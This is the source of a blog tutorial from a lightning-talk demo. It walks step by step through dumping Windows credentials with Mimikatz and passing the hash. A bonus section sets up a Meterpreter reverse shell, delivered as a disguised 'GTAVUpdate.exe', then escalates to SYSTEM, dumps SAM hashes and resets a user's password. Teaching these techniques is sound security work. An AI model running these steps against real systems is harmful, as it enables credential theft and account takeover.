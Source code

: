 ```yaml
---
title: 'Passing the Hash with Mimikatz'
excerpt: "In this article, I'll walk you through how to use Mimikatz to obtain user passwords from a Windows machine. I'll also show you how to use Mimikatz in order to perform an attack called passing the hash (pth) to escalate your privileges and impersonate a user. Also as a bonus, I'll show you how you can utilise both a Meterpreter reverse shell and a phishing attack in order to get the same outcome but without needing physical access to the target's machine."
publishDate: '2020-03-16T05:35:07.322Z'
tags: ['Security']
---
```


<div className="markdown">

### What are the main concepts

<div className="w-full flex flex-col md:flex-row space-between gap-4">
  <div className="w-[15rem] md:w-[25rem] flex flex-col gap-2 p-4">
    <svg
      xmlns="http://www.w3.org/2000/svg"
      width="24"
      height="24"
      viewBox="0 0 24 24"
      fill="none"
      stroke="currentColor"
      strokeWidth="2"
      strokeLinecap="round"
      strokeLinejoin="round"
      className="lucide lucide-shield-alert"
    >
      <path d="M20 13c0 5-3.5 7.5-7.66 8.95a1 1 0 0 1-.67-.01C7.5 20.5 4 18 4 13V6a1 1 0 0 1 1-1c2 0 4.5-1.2 6.24-2.72a1.17 1.17 0 0 1 1.52 0C14.51 3.81 17 5 19 5a1 1 0 0 1 1 1z" />
      <path d="M12 8v4" />
      <path d="M12 16h.01" />
    </svg>
    <div className="text-lg font-semibold">Mimikatz</div>
    <small className="text-slate-500 text-sm">
      Mimikatz is well known to extract plaintexts, passwords, and hash from
      memory.
    </small>
  </div>
  <div className="w-[15rem] md:w-[25rem] flex flex-col gap-2 p-4">
    <svg
      role="img"
      width="24"
      height="24"
      viewBox="0 0 24 24"
      xmlns="http://www.w3.org/2000/svg"
    >
      <title>Metasploit</title>
      <path d="M11.353 0h1.368q4.19.218 8.144 1.616.217.077.216.309-.015 4.033-.002 12.102 0 .81-.093 1.173c-.217.845-.76 1.635-1.326 2.325q-.318.388-1.024 1.046-2.955 2.75-6.01 5.094-.183.14-.516.335h-.17q-.627-.42-.945-.673-3.992-3.184-5.442-4.459-1.348-1.185-2.169-2.611c-.369-.64-.466-1.287-.465-2.099q.01-6.048.002-12.218c0-.183.09-.264.261-.325Q7.145.227 11.352 0ZM7.474 7.864q0-.094.069-.031l2.797 2.516a.374.372 21.2 0 1 .122.276l-.006 4.333a.182.182 0 0 0 .183.184l2.524-.018a.11.11 89.8 0 0 .108-.11q-.007-2.201.01-4.461.002-.173.146-.29 1.397-1.145 2.946-2.393.068-.055.068.032v10.881q0 .092.063.024.794-.865 1.628-1.838.71-.83.984-1.87.26-.989.262-1.997.007-4.754.009-9.768a.136.136 0 0 0-.137-.136q-1.15.004-2.424 0c-.287-.002-.441-.022-.619.149Q14.16 5.317 11.982 7.4a.046.046 0 0 1-.062 0Q9.782 5.437 7.769 3.525c-.234-.222-.515-.381-.843-.373q-1.09.026-2.33.005-.184-.004-.184.18-.003 4.54.005 9.032.002.536.036 1.027c.076 1.093.2 2.126.803 3.021.574.852 1.329 1.656 2.126 2.405q.023.022.054.026.04.006.04-.034z" />
    </svg>
    <div className="text-lg font-semibold">Metasploit</div>
    <small className="text-slate-500 text-sm">
      The world&apos;s most used penetration testing framework.
    </small>
  </div>
  <div className="w-[15rem] md:w-[25rem] flex flex-col gap-2 p-4">
    <svg
      role="img"
      width="24"
      height="24"
      viewBox="0 0 24 24"
      xmlns="http://www.w3.org/2000/svg"
    >
      <title>Kali Linux</title>
      <path d="M12.778 5.943s-1.97-.13-5.327.92c-3.42 1.07-5.36 2.587-5.36 2.587s5.098-2.847 10.852-3.008zm7.351 3.095l.257-.017s-1.468-1.78-4.278-2.648c1.58.642 2.954 1.493 4.021 2.665zm.42.74c.039-.068.166.217.263.337.004.024.01.039-.045.027-.005-.025-.013-.032-.013-.032s-.135-.08-.177-.137c-.041-.057-.049-.157-.028-.195zm3.448 8.479s.312-3.578-5.31-4.403a18.277 18.277 0 0 0-2.524-.187c-4.506.06-4.67-5.197-1.275-5.462 1.407-.116 3.087.643 4.73 1.408-.007.204.002.385.136.552.134.168.648.35.813.445.164.094.691.43 1.014.85.07-.131.654-.512.654-.512s-.14.003-.465-.119c-.326-.122-.713-.49-.722-.511-.01-.022-.015-.055.06-.07.059-.049-.072-.207-.13-.265-.058-.058-.445-.716-.454-.73-.009-.016-.012-.031-.04-.05-.085-.027-.46.04-.46.04s-.575-.283-.774-.893c.003.107-.099.224 0 .469-.3-.127-.558-.344-.762-.88-.12.305 0 .499 0 .499s-.707-.198-.82-.85c-.124.293 0 .469 0 .469s-1.153-.602-3.069-.61c-1.283-.118-1.55-2.374-1.43-2.754 0 0-1.85-.975-5.493-1.406-3.642-.43-6.628-.065-6.628-.065s6.45-.31 11.617 1.783c.176.785.704 2.094.989 2.723-.815.563-1.733 1.092-1.876 2.97-.143 1.878 1.472 3.53 3.474 3.58 1.9.102 3.214.116 4.806.942 1.52.84 2.766 3.4 2.89 5.703.132-1.709-.509-5.383-3.5-6.498 4.181.732 4.549 3.832 4.549 3.832zM12.68 5.663l-.15-.485s-2.484-.441-5.822-.204C3.37 5.211 0 6.38 0 6.38s6.896-1.735 12.68-.717Z" />
    </svg>
    <div className="text-lg font-semibold">Kali Linux</div>
    <small className="text-slate-500 text-sm">
      A Linux distribution designed for digital forensics and penetration
      testing.
    </small>
  </div>
</div>

### Pre Set Up

- A target (preferably with consent)
- A windows machine with multiple user account (peferably one which has admin access)
- The Windows Defender (aka Window's firewall) has been turned off
- Mimikatz (and metasploit if you are attempting the bonus feature) downloaded

```
  .#####.   mimikatz 2.0 alpha (x86) release "Kiwi en C" (Apr  6 2014 22:02:03)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                    with  13 modules * * */
```

### The Simple Way

1. Log on as `FakeUser` and demonstrate that without system admin privilege, we can't change the password of another account.
2. Launch `Mimikatz` as an administrator
3. Use command `privilege::debug` to escalate privileges
4. Use command `sekurlsa::logonpasswords` to dump all user passwords.
5. Get the hash of the user we want to impersonate (in this case, it's `User`) and the domain of the `FakeUser` account.
6. Use command:

```
sekurlsa::pth /user:User /domain:[insert_user_domain_here] /ntlm:[insert_hash_here]
```

7. A new console opens up.
8. Demonstrate that the system thinks we are still `FakeUser` but we definitely are `User`.
9. Now try changing the password and it will work. This is an pre-recording I did in case the lightning talk went sideways. If you can't view the recording below, use this link instead: <a className='text-[#438EDF] hover:text-[#2268B4] underline underline-offset-2' href="https://youtu.be/MLizeTI0jr4">Mimikatz Video</a>

<div className="flex w-full justify-center py-4">
  <iframe
    width="710"
    height="398"
    src="https://www.youtube.com/embed/MLizeTI0jr4"
    frameborder="0"
    allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture"
    allowfullscreen
    className="rounded-sm"
  ></iframe>
</div>

### Bonus: The Fancy Way

1. Launch Kali
2. Open terminal and get IP using `ip addr`
3. Launch Metasploit using `msfconsole`
4. Use commands:

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST [IP address]
set LPORT 4444
```

5. Open another console and `cd /var/www/html`
6. Start the apache server using `service apache2 start`
7. Switch back to the meterpreter console and type `exploit`
8. Switch over to the Windows machine and talk about how a simple social engineering can be done to gain access.
9. Once launch `GTAVUpdate.exe`, go back to Kali.
10. Show that we are now impersonating this user by `getuid`
11. Escalate our privileges by `getsystem`
12. Show that we are now system admin by `getuid`
13. Load mimikatz using `load mimikatz`
14. Show that we can get user password ntlm hashes using `lsa_dump_sam`
15. Type in `shell`
16. This launches the shell and we can verify that we are system admin by `whoami`
17. Change password using `net user User hello`

### Reflection

From researching various topics about Mimikatz, passing the hash and Windows Defenders to ultimately doing a lightning talk (more like a lightning demo) about how to escalate privileges in Windows, I've learnt a lot about how powerful a tool Windows firewall is to detect malware like Mimikatz and how easy it was to hack someone's account when you have physical access (ie. GAME OVER!!!). The talk I did also spawned a couple of interesting questions about the validity of attacking a corporate network like how I demonstrated it. Spoiler alert: unless you have physical access to the network, you chances of you doing this is low. Even if you successfully manage to download Mimikatz, there are definitely going to be all sorts of red flags going off in the company's IT department.

</div>
